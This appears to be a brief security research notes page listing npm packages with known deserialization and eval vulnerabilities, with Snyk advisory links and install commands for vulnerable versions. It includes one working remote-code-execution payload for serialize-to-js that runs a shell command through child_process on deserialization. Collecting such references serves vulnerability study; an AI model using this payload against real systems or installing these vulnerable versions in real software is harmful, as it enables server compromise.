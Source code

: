 
To see all versions of a package:

`npm view <package-name>`


### Serialize js 

https://snyk.io/vuln/npm:serialize-to-js:20170208
`npm i serialize-to-js@0.8`

```JavaScript
var serialize = require('serialize-to-js');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.deserialize(payload);
```


### Node Serialize

https://snyk.io/test/npm/node-serialize/0.0.4

`npm install node-serialize`


### Serialize JavaScript

https://snyk.io/vuln/SNYK-JS-SERIALIZEJAVASCRIPT-570062

`npm i serialize-javascript@3.0`


### Safe(r) Eval

https://snyk.io/vuln/SNYK-JS-SAFEREVAL-473029
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-534901

https://www.npmjs.com/advisories/1021

https://snyk.io/vuln/npm:safe-eval:20170830


### Static Eval

`npm i static-eval` (<2.0.0)

https://snyk.io/vuln/npm:static-eval:20171016
https://maustin.net/articles/2017-10/static_eval

https://snyk.io/vuln/SNYK-JS-STATICEVAL-173693


### 

### Other Notes

(For Nikos: https://github.com/bkimminich/juice-shop/issues/269)

